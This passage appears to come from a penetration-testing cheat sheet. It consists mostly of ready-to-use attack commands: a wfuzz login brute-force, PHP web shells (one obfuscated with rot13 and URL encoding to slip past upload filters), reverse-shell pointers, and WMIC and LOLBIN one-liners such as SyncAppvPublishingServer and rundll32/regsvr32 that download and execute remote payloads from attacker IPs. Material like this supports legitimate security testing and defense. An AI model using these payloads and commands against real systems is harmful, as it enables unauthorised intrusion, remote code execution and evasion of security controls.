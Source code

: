 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
```<?php `$_GET["c"]`; ?>```

file upload:

```<?php file_put_contents('/var/www/html/uploads/test.php', '<?php system($_GET["c"]);?>'); ?>```

file upload evasion:  rot13 + urlencode

```<?php $payload="%3C%3Fcuc%20flfgrz%28%24_TRG%5Bp%5D%29%3B%3F%3E"; file_put_contents('/var/www/html/uploads/test8.php', str_rot13(urldecode($payload))); ?>```


<a name="rcewebshell"></a><h3>RCE via webshell</h3>

- All pentest monkey reverse shells: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

- msfvenom x86/linux/shell_reverse_tcp -f elf

- Metasploit `web_delivery` module

- which wget | nc <ip> <port>
 
<a name="rcewmic"></a><h3>RCE via WMIC</h3>

Powershell without powershell:

Generate payload with web_delivery

![powershellless1](https://user-images.githubusercontent.com/7115563/40374533-8da00e10-5de9-11e8-888e-3b1eaccb28b0.png)

Encode Payload

![powershellless2](https://user-images.githubusercontent.com/7115563/40374540-908e0ca8-5de9-11e8-9002-5f03193b10a5.png)

Include payload in xsl file

![powershellless3](https://user-images.githubusercontent.com/7115563/40374546-92dcda84-5de9-11e8-99c8-9066ae129644.png)

<pre>wmic process get brief /format:"https://raw.githubusercontent.com/adon90/pentest_compilation/master/nops.xsl"</pre>

![powershellless4](https://user-images.githubusercontent.com/7115563/40375266-73770028-5deb-11e8-92da-952692727bec.png)

<a name="lolbins"></a><h3>LOLBINS</h3>

<b>SyncAppvPublishingServer</b>

<pre>SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://192.168.48.129:8000/reverse.ps1') | IEX"</pre>

![lolbin1](https://user-images.githubusercontent.com/7115563/40776727-ee904d00-64cb-11e8-8921-407581b13edf.png)

<b>rundll32</b>

<pre>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("regsvr32 /s /n /u /i:http://192.168.48.130:8080/bhRxgASz0.sct scrobj.dll")</pre>

```